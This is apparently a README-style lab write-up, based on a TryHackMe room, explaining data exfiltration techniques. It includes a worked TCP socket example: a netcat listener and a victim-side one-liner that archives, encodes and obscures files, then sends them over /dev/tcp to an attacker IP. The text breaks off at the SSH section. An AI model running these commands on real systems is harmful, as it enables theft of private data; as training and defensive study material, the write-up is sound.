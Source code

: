 # Data Exfiltration

The Data Exfiltration is the process of transferring data from a system or network without authorization. This type of attack typically involves obtaining and extracting sensitive or confidential information, such as personal, financial, or corporate data, without the consent of the data owner. Data exfiltration is used to hide an adversary's malicious activities and bypass security products. For example, the DNS exfiltration technique can evade security products, such as a firewall.

Data exfiltration can have severe consequences for an organization or individual, including financial loss, reputational damage, and privacy breaches.

<p align="center">
  <img width="600" height="450" src="./img/1.jpg">
</p>

Here we will use some techniques below to exemplify data theft;

* TCP Socket
* SSH
* HTTP(s)
* ICMP
* DNS

For this study, we used the **TryHackMe** room as an example ([TryHackMe - Data Exfiltration ](https://tryhackme.com/r/room/dataxexfilt)).

## TCP Socket

In this topic, we will use the TCP protocol to transfer data from an already compressed host. This is the simplest technique, where we know that there is a weak security system.

<p align="center">
  <img width="650" height="200" src="./img/2.jpg">
</p>

1. To exfiltrate the data, the hacker opens port 15251 (uncommon).
2. The hacker opens port 1337 to receive data.
3. The victim communicates with the hacker and begins transferring data.

### Starting the Attack



* Let's use NC (NetCat) to start a listener on the attacker. In this step, we will transfer all data received on port 1337 to the **data.txt** file.

```
nc -lvp 1337 > /tmp/data.txt
```
* On the victim, we will begin transfers to the attacking host.

```
tar zcf - /tmp/files/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/1337
```
1. We use TAR to compress the files folder.
2. We convert TAR to base64.
3. We then convert the base64 to a backup file, using dd and EBCDIC encoding.
4. we direct all this code to the TCP socket, sent to 1337 from the attacker.

Below we can see the sending and receiving of data via TCP socket.

* On the victim's machine, I am sending files from the **/tmp/files** folder

<p align="center">
  <img width="800" height="120" src="./img/4.jpg">
</p>

* On the attacker's computer, we receive the data on port 1337 and reverse the DD, base64 and TAR encoding.

<p align="center">
  <img width="800" height="300" src="./img/5.jpg">
</p>

## SSH